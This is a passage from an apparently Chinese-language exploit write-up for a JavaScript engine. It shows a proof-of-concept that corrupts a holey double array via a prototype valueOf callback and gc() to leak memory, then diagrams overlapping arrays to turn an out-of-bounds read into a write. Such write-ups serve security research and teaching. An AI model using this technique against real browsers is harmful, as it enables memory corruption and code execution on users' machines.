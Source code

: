 ```js
    });

    var corrupted_array = [
    // HOLEY_DOUBLE_ELEMENTS
           , 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
    ];
    corrupted_array.constructor = constru;
    
    Array.prototype[0] = {
        valueOf: function() {
            corrupted_array.length = 1;
            gc();
            print("[CALLBACK]");
            delete Array.prototype[0];
            return 4.3;
        }
    };

    var res = corrupted_array.concat();
    dump64(res, 20);
}
```

通过以上利用结合具体调试就可以获得相关内存信息了，具体代码实现在 [`src/exploit.js`](src/exploit.js) 的 `leak` 函数中。

#### 从越界读到越界写

考虑下面这种内存布局：

```sh
        --------------------------------------------
        +               map (elements)             +
        +------------------------------------------+
        +   length          |           0          +
        +------------------------------------------+
        +               elem values                +
        +               ....                       +
        +               ....                       +            
        +               HOLE                       + <----------+
        +               ....                       +            |
        +               ....                       +            |
        +------------------------------------------+            |
        +               map (Array)                +            |
        +------------------------------------------+            |
        +               prototype                  +            |
        +------------------------------------------+            |
        +               elements                   +            |
        +------------------------------------------+            |
        +   length          |           0          +            |
        +------------------------------------------+            |
        +               properties                 +            |
        +------------------------------------------+            |
        +               ...                        +            |
        +------------------------------------------+ Overlap    |
        +       element of another array           + -----------+
        +------------------------------------------+
```